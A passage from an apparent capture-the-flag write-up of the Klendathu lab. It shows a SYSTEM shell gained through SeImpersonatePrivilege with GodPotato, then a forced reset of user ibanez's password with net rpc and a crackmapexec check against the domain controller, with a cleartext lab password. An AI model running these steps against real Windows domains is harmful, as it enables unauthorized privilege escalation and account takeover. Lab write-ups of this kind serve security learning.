 
After we saw [SeImpersonatePrivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) got admin shell  with [GodPotato](https://github.com/BeichenDream/GodPotato) directly :D

    PS C:\Windows\system32> whoami
    whoami
    nt authority\system

One host DONE lets go :D

As u know before our use can changepasswd for ibanez lets do this rn

![alt text](../assets/images/Screenshot_2024-07-04_21_04_09.png)

I used net rpc for change password for ibanez.

    ➜  kelndathu net rpc password ibanez -U klendathu/rasczak%<redacted> -S dc1.klendathu.vl 
    Enter new password for ibanez:
    ➜  kelndathu crackmapexec smb dc1.klendathu.vl -u ibanez -p 'Osman.irem361'
    SMB         klendathu.vl    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
    SMB         klendathu.vl    445    DC1              [+] KLENDATHU.VL\ibanez:Osman.irem361
